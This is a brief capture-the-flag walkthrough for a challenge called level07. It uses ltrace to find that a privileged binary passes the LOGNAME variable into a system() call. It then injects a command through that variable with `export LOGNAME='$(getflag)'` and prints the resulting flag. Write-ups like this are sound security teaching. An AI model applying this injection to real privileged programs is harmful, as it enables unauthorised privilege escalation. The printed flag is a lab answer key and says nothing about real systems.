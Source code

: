 ### Level07

When I execute `./level07`, the program just prints level07. Adding arguments does not change its behaviour.

Let's start by analyzing level07 with `ltrace` :
```
__libc_start_main(0x8048514, 1, 0xbffff7a4, 0x80485b0, 0x8048620 <unfinished ...>
getegid() = 2007
geteuid() = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280) = 0
getenv("LOGNAME") = "level07
asprintf(0xbffff6f4, 0x8048688, 0xbfffff31, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> ) = 0
+++ exited (status 0) +++
```

We see a call to getenv to get LOGNAME and a call to echo to print the value of the variable. Just change the value with export: 
`export LOGNAME='$(getflag)' `

Then just run ./level07 to display the flag
`fiumuikeil55xe9cu4dood66h`
